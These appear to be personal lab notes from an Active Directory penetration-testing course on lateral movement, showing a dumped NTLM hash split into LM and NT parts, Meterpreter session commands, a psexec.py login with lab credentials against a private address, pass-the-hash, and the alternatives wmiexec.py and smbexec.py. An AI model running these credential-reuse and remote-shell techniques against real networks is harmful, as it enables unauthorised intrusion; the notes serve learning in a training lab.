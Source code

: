 
Metasploit but there are chances that it could get picked up
but there are alternatives.

Not get picked up as much as Metasploit.
psexec.py


Pass the hash
Could also use the hash if we are not able to crack the hash


Meterpreter command
```
background
```

```
sessions
```

 
 Now you know that we have NTLM so let's explore which part is which
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
```

LM
```
aad3b435b51404eeaad3b435b51404ee
```

NT
```
7facdc498ed1680c4fd1448319a8c04f
```

But we need the whole hash when doing pass the hash attacks.

```
psexec.py MARVEL/fcastle:'Password1'@192.168.17.140
```
but but but as the AV is on it will get picked up and we won't be able to get the shell

![[Pasted image 20240122204822.png]]

![[Pasted image 20240122204923.png]]

Two more tools to keep in mind if psexec.py 
```
wmiexec.py
smbexec.py
```


And we don't need a shell to be successful but will keep this in back of our mind.

